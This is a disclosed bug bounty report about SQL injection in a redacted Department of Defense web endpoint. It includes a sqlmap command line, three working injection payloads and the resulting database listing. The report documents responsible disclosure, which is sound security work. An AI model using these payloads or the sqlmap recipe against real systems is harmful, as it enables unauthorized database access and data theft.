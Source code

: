 # SQL injection at [█████████] [HtUS]

## Report Details
- **Report ID**: 1626198
- **URL**: https://hackerone.com/reports/1626198
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-05T14:01:06.968Z
- **Disclosed**: 2022-09-14T21:06:26.137Z

## Reporter
- **Username**: malcolmx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello,

##Summary

while doing test on [`█████`](http://███████/) I’ve found that the endpoint at `/olc/set/m101/leasib.php` is vulnerable with SQL injection vulnerability

##Vulnerable parameters 

- scn
- SUBJECT
- COURSEID

##POC

1. using sqlmap run command `python3 [sqlmap.py](http://sqlmap.py/) --level=5 --risk=3 --tamper=space2comment --random-agent -u [https://████/olc/set/m101/leasib.php](https://█████/olc/set/m101/leasib.php) --data="COURSEID=M101&SUBJECT=Entry%20Briefing&StudentName=dPbRKJwr&Submit=Submit%20Confirmation&scn=0" -p scn`
2. we can se that the target is vulnerable 

```jsx
Parameter: scn (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: COURSEID=M101&SUBJECT=Entry Briefing&StudentName=dPbRKJwr&Submit=Submit Confirmation&scn=0'||(SELECT 0x5648745a FROM DUAL WHERE 7300=7300 AND 1308=1308)||'

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: COURSEID=M101&SUBJECT=Entry Briefing&StudentName=dPbRKJwr&Submit=Submit Confirmation&scn=0'||(SELECT 0x47636148 FROM DUAL WHERE 1321=1321 AND (SELECT 7303 FROM(SELECT COUNT(*),CONCAT(0x7171706271,(SELECT (ELT(7303=7303,1))),0x71716b6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: COURSEID=M101&SUBJECT=Entry Briefing&StudentName=dPbRKJwr&Submit=Submit Confirmation&scn=0'||(SELECT 0x47774954 FROM DUAL WHERE 5475=5475 AND (SELECT 6347 FROM (SELECT(SLEEP(5)))eoxH))||'
---
```

1. add - -dbs we can see the databases   

```jsx
available databases [13]:
[*] ███
[*] ███mobile
[*] GET
[*] information_schema
[*] LEAM
[*] leat
[*] LEV
[*] mysql
[*] performance_schema
[*] SET
[*] test
[*] testadmin
[*] testusers
```

## Impact

allows remote attacker to gain access to the database

## Attachments
No attachments
